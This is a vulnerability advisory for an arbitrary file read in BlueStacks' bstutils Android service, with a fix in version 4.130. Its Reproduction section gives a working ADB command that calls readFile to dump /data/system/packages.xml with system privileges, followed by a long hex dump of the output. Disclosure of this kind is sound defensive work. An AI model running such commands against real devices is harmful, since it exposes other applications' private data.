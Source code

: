 # Summary

An unprotected method in a bstutils service in BlueStacks 4.120 and below on Mac
and 4.110 and below on Winodws allows a local attacker to read the contents of
arbitrary files with system privileges.

# Description

BlueStacks is an Android emulator available for Windows and Mac systems. It works
by creating a virtual smartphone/tablet device inside the host operating system.
The emulated Android OS includes multiple custom binaries developed by BlueStacks
developers, including a system service called bstutils (identified by an interface
descriptor com.bluestacks.os.IbstUtilsService). This service contains a method
readFile() (transaction id 6 on a tested system), which returns the contents of a file
located under the path provided as method’s argument.

readFile() method can be called by any user, including an unprivileged third-party app.
However, methods in the bstutils service are executed by the system_server process
which runs with system and gid. This means that the method can be used to retrieve
contents not accessible to the caller, including private data of other installed
applications.

# Reproduction

Reproducing this issue in ADB is as simple as running the following command:

```service call bstutils 6 s16 /data/system/packages.xml```

The result should be a hex dump of packages.xml file:


```
Result: Parcel(
0x00000000: 00000000 0005caf0 003f003c 006d0078 ‘……..<.?.x.m.’
0x00000010: 0020006c 00650076 00730072 006f0069 ‘l. .v.e.r.s.i.o.’
0x00000020: 003d006e 00310027 0030002e 00200027 ‘n.=.’.1…0.’. .’
0x00000030: 006e0065 006f0063 00690064 0067006e ‘e.n.c.o.d.i.n.g.’
0x00000040: 0027003d 00740075 002d0066 00270038 ‘=.’.u.t.f.-.8.’.’
0x00000050: 00730020 00610074 0064006e 006c0061 ‘ .s.t.a.n.d.a.l.’
0x00000060: 006e006f 003d0065 00790027 00730065 ‘o.n.e.=.’.y.e.s.’
0x00000070: 00200027 003e003f 003c000a 00610070 ”. .?.>…<.p.a.’
0x00000080: 006b0063 00670061 00730065 000a003e ‘c.k.a.g.e.s.>…’
0x00000090: 00200020 00200020 0076003c 00720065 ‘ . . . .<.v.e.r.’
0x000000a0: 00690073 006e006f 00730020 006b0064 ‘s.i.o.n. .s.d.k.’
0x000000b0: 00650056 00730072 006f0069 003d006e ‘V.e.r.s.i.o.n.=.’
0x000000c0: 00320022 00220035 00640020 00740061 ‘”.2.5.”. .d.a.t.’
0x000000d0: 00620061 00730061 00560065 00720065 ‘a.b.a.s.e.V.e.r.’
0x000000e0: 00690073 006e006f 0022003d 00220033 ‘s.i.o.n.=.”.3.”.’
0x000000f0: 00660020 006e0069 00650067 00700072 ‘ .f.i.n.g.e.r.p.’
0x00000100: 00690072 0074006e 0022003d 006f0067 ‘r.i.n.t.=.”.g.o.’
0x00000110: 0067006f 0065006c 006d002f 00720061 ‘o.g.l.e./.m.a.r.’
0x00000120: 0069006c 002f006e 0061006d 006c0072 ‘l.i.n./.m.a.r.l.’
0x00000130: 006e0069 0037003a 0031002e 0031002e ‘i.n.:.7…1…1.’
0x00000140: 004e002f 0046004f 00360032 002f0056 ‘/.N.O.F.2.6.V./.’
0x00000150: 00360033 00360033 00320033 003a0032 ‘3.6.3.6.3.2.2.:.’
0x00000160: 00730075 00720065 0072002f 006c0065 ‘u.s.e.r./.r.e.l.’
0x00000170: 00610065 00650073 006b002d 00790065 ‘e.a.s.e.-.k.e.y.’
0x00000180: 00220073 002f0020 000a003e 00200020 ‘s.”. ./.>… . .’
0x00000190: 00200020 0076003c 00720065 00690073 ‘ . .<.v.e.r.s.i.’
0x000001a0: 006e006f 00760020 006c006f 006d0075 ‘o.n. .v.o.l.u.m.’
0x000001b0: 00550065 00690075 003d0064 00700022 ‘e.U.u.i.d.=.”.p.’
0x000001c0: 00690072 0061006d 00790072 0070005f ‘r.i.m.a.r.y._.p.’
0x000001d0: 00790068 00690073 00610063 0022006c ‘h.y.s.i.c.a.l.”.’
0x000001e0: 00730020 006b0064 00650056 00730072 ‘ .s.d.k.V.e.r.s.’
0x000001f0: 006f0069 003d006e 00320022 00220035 ‘i.o.n.=.”.2.5.”.’
0x00000200: 00640020 00740061 00620061 00730061 ‘ .d.a.t.a.b.a.s.’
0x00000210: 00560065 00720065 00690073 006e006f ‘e.V.e.r.s.i.o.n.’
0x00000220: 0022003d 00220033 00660020 006e0069 ‘=.”.3.”. .f.i.n.’
0x00000230: 00650067 00700072 00690072 0074006e ‘g.e.r.p.r.i.n.t.’
0x00000240: 0022003d 006f0067 0067006f 0065006c ‘=.”.g.o.o.g.l.e.’
0x00000250: 006d002f 00720061 0069006c 002f006e ‘/.m.a.r.l.i.n./.’
0x00000260: 0061006d 006c0072 006e0069 0037003a ‘m.a.r.l.i.n.:.7.’
0x00000270: 0031002e 0031002e 004e002f 0046004f ‘..1…1./.N.O.F.’
0x00000280: 00360032 002f0056 00360033 00360033 ‘2.6.V./.3.6.3.6.’
0x00000290: 00320033 003a0032 00730075 00720065 ‘3.2.2.:.u.s.e.r.’
0x000002a0: 0072002f 006c0065 00610065 00650073 ‘/.r.e.l.e.a.s.e.’
0x000002b0: 006b002d 00790065 00220073 002f0020 ‘-.k.e.y.s.”. ./.’

//… output truncated for brevity
```

# Remedy

Update BlueStacks to version 4.130 or later.
